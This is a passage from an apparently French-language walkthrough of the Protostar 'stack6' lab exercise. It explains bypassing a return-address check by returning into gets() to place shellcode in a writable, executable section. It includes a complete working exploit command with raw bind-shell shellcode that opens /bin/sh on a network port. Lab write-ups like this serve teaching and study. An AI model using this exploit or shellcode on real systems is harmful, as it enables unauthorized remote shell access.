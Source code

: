 Mais surtout si on tente d'écraser l'adresse de retour par une adresse de la stack (du type `0xbfXXXXXX`) alors le programme le détecte (voir instruction à `0x080484bd`) et appelle `exit()` :

```bash
$ python -c 'print "A"*80 + "\x01\x01\x01\xbf"' | ./stack6
input path please: bzzzt (0xbf010101)
```

Un `ret2libc` pourrait fonctionner mais ici au lieu de passer l'adresse de `system()` on va appeller à nouveau la fonction `gets()` pour quelle lise notre shellcode vers une adresse que l'on controle (mais pas sur la stack) puis saute dessus.

Si on lance le programme on peut (par exemple pendant qu'il attend des données) aller voir sa structure en mémoire via le fichier `maps` sous son pid dans `/proc` :

```bash
$ cat /proc/2385/maps
08048000-08049000 r-xp 00000000 00:10 4963       /opt/protostar/bin/stack6
08049000-0804a000 rwxp 00000000 00:10 4963       /opt/protostar/bin/stack6
b7e96000-b7e97000 rwxp 00000000 00:00 0 
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

On voit que la seconde plage d'adresse (qui commence à `0x08049000`) est écrivable et exécutable. Normalement c'est une section pour des variables mais on va mettre notre shellcode dedans.

Il nous faut déjà l'adresse de `gets` :

```bash
$ objdump -d stack6 | grep gets
08048380 <gets@plt>:
 80484aa:       e8 d1 fe ff ff          call   8048380 <gets@plt>
```

Et ensuite on va passer l'adresse `0x08049004` histoire de ne pas avoir d'octet nul. On la passe plusieurs fois car il y a l'argument pour `gets`, du padding ainsi que l'adresse de retour suivante pour sauter sur le shellcode :

```bash
$ python -c 'print "A"*80 + "\x80\x83\x04\x08" + "\x04\x90\x04\x08" * 3; print "\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x56\x89\xe1\xcd\x80\x89\xc6\x31\xc9\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf2\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��
```
